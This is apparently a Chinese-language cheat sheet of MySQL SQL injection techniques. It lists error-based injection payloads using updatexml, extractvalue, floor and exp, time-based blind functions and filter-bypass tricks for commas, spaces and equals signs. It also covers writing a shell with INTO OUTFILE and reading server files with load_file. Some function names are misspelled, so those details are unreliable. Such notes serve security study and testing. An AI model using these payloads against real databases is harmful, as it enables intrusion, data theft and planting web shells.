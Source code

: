 ## 绕过逗号过滤
在使用盲注的时候，需要使用到substr(),mid(),limit.这些字句方法都需要使用到逗号。都与substr和mid()这两个方法，可以使用from for的方式来解决
## insert 注入
insert注入一般为时间盲注，本身不存在bool盲注。
## mysql报错函数
### 通用的报错函数
geometrycollection() //在mysql 5.6/mariadb 10.1中测试无报错  
multipoint()         //在mysql 5.6/mariadb 10.1中测试无报错  
polygon()            //在mysql 5.6/mariadb 10.1中测试无报错  
multipolygon()       //在mysql 5.6/mariadb 10.1中测试无报错  
linestring()         //在mysql 5.6/mariadb 10.1中测试无报错  
mulilinestring()     //在mysql 5.6/mariadb 10.1中测试无报错  
floor()              //可用，select * from test where id=1 and (select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2)));  
updatexml()          //可用，select * from test where 1 and updatexml(1,(select concat(0x7e,user())),1)  
extractvalue()       //可用，select * from test where id =1 and extractvalue(1,(select concat(0x7e,user())));  
exp()                //在mysql 5.6可用/mariadb 10.1中测试无报错，select * from test where i and exp(~(select * from(select user())a));  
### mysql5.7以上才有的报错函数
ST_LatFromGeoHash()
ST_LongFromGeoHash()
GTID_SUBSET()
ST_PointFromGeoHash()
## mysql中字符串拼接函数
left(str,length)           //从字符串左侧截取str的前length位
right(str,length)           //从字符串右侧截取
mid(str,pos,len)          //从pos位置开始，截取字符串str的len长度
substr(a,b,c)               //效果同mid
substring(str,pos)         //从pos位置开始，截取到最后
## mysql中基于时间的盲注函数
+ sleep
+ banchmark

## mysql写shell
+ select 'xxxx' into outfile '路径'
+ select 'xxxx' into dumpfile '路径'
mysql读文件：select load_file('路径');

## mysql udf提权

## mysql一些技巧
'='被过滤，可以用like代替
' '被过滤，可以用`/**/`,`/!**/`,%0a,%0b,'+'来尝试绕过
','被过滤，可以用join来绕过
